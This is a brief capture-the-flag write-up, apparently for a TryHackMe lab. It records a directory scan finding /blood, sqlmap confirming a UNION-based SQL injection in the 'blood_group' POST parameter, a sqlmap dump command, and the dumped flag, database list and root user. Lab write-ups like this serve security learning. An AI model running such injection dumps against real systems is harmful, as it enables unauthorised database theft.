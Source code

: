 # writeups

/blood                (Status: 301) [Size: 194] [--> http://10.10.124.215/blood/]

```
[18:04:23] [INFO] POST parameter 'blood_group' is 'Generic UNION query (NULL) - 1 to 20 columns' injectable
POST parameter 'blood_group' is vulnerable. 
```

after making `└─$ sqlmap -r blood.txt -D blood --dump`


```
Database: blood
Table: flag
[1 entry]
+----+---------------------+------+
| id | flag                | name |
+----+---------------------+------+
| 1  | thm{sqlm@p_is_L0ve} | flag |
+----+---------------------+------+
```

`nare@sqlmap.com.np`


```
[*] blood
[*] information_schema
[*] mysql
[*] performance_schema
[*] sys
[*] test
```

`current user: 'root@localhost'`

